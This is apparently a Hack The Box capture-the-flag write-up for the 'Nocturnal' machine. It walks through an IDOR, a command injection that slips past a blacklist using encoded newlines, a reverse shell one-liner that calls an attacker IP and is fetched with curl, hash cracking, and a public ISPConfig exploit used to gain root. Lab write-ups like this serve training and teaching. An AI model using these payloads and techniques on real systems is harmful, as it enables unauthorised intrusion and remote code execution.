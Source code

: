 ```yaml
---
slug: /write-up/htb/machines/easy/nocturnal
pagination_next: null
pagination_prev: null
---
```


# Nocturnal

## Enumeration

nmap:

```bash
└─$ nmap 10.10.11.64
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 20:56 CEST
Nmap scan report for 10.10.11.64
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Whatweb:

```bash
whatweb nocturnal.htb                                                                                        
http://nocturnal.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[support@nocturnal.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.64], Title[Welcome to Nocturnal], nginx[1.18.0]
```

Discovering folders with fuff, we found that `nginx` is returning 403 or 301 for the following folders:

- backups
- uploads
- uploads2

This might be useful for later.

In the website we see: `Please login or register to start uploading and viewing your files.`

When you upload a file, you can see the URL is:

`http://nocturnal.htb/view.php?username=test%40test.htb&file=test.pdf`

We can try to abuse this to list files.

`Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.`

If you register two users and upload different files, and you try to access same file from both accounts, you will discover that, i you send a valid username but invalid file, you'll get a list of the files uploaded for that username, e.g:

`http://nocturnal.htb/view.php?username=test@test.htb&file=test2.pdf`

So, we need a way of enumerating users. We can enumerate users with `fuff` and `SecLists`:

```bash
ffuf -w /opt/github/SecLists/Usernames/Names/names.txt:FUFF -u "http://nocturnal.htb/view.php?username=FUFF&file=test.pdf" -H "Cookie: PHPSESSID=xxx" -fw 1170
```

Take into account that we need to be authenticated to perform the IDOR (Insecure Direct Object Reference) attack. To simulate authentication, we can pass a cookie to fuff. The following users have been found:

```
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 33ms]
kevin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 31ms]
```

Amanda has a file named `privacy.odt`. The password for amanda is in that file. Trying to ssh to the machine with amanda user and password failed; but we can access the website and have access to the admin panel.

## Foothold

Now we have access to the source code and we have a form to create and access backups. We see there are two folders: `uploads` and `backups` shown in the Admin panel. The admin panel only shows php files, but if we create a backup we'll have access to the uploads content.

The URL format of the backup is `http://nocturnal.htb/backups/backup_2025-08-17.zip`. We can try to bruteforce the backup folder and see if we find something interesting. Nothing found ...

However, checking the code of the create backup function, a potential command injection is found via the password file

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

However, the password input is cleaned:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

After messing around, I found a way to bypass the cleaning function: use newline character to execute different commands, e.g:

```bash
ls
id
```

Newline character is not cleaned up from the user input. Since we have access to the source code, we can prepare an experiment to see if we can bypass the limitation with `\n`:

```php
$entry="1\nid>/tmp\n";
$password = cleanEntry($entry);
```

Since we want to retrieve the output of the `id` command, we need to force an error. In the legitimate command, stdout and stderr are redirected to a log:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The only thing now missing is testing it via the UI. However, due to the nature of the HTML components, looks like the password is not sent to the PHP endpoint as we want. Instead, we can rely to manual execution with curl.

If we try to send `\n` char our command injection will fail, however, we can send the url-encoded version of the payload:

```
password=1%0Aid>/tmp%0A&backup=
```

In the same way, we can leverage `\t` instead of ` `.

And we will see the contents of the id command in the returned logs.

Now, we can try to create a reverse shell abusing of this RCE. Since there are a lot of restrictions on the command injection, we'll build the reverse shell payload locally and upload it to the target.

1. Go to revshells.com
2. Write the reverse shell to a file in the attacker machine
```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.173/9001 0>&1"' > payload
```
3. Download the payload in the victim machine. Pass the command injection with a payload that will execute:
```bash
curl 10.10.14.173:8000/shell -o payload
```
This will download the payload to same directory
4. Check if the payload has been downloaded:
```bash
ls -l payload
```
5. Execute the payload:
```bash
bash payload
```

And we'll have a very nice shell into the machine with user `www-data`.

## Lateral movement

An SQLite database is found with www-data ownership. Let's exfiltrate it.

In the database there's a bunch of users/hashes. According to hashcat, they are md4 hashes.

Let's crack them:

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

And we find the password for user `tobias`.

We can now connect and retrieve the user flag.

## Privilege escalation

There's a bunch of application listening in localhost:
```shell
tobias@nocturnal:~$ netstat -putona
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    off (0.00/0/0)
```

In port 8080, it's something called ISPConfig. More info here: https://en.wikipedia.org/wiki/ISPConfig

Tried a SSH port forwarding the application complained about a possible attack. Most likely, there's something that checks the hostname. We can modify /etc/hosts in our attacker machine to tell that nocturnal.htb now points to localhost.

We can log in as admin - the password cracked for tobias.

Trying to determine the version of the running ISPConfig.

Come across some vulnerabilities:

- https://github.com/ajdumanhug/CVE-2023-46818

It will exploit versions of ISPConfig <= 3.2.11 and we've got ISPConfig Version: 3.2.10p1

We are lucky, looks like it will be affected

The poc will give us access to a `ispconfig-shell` as root. Looks like we cannot escape current directory, but, we can run a reverse shell from there that will give us full root access and we will be able to retrieve the flag.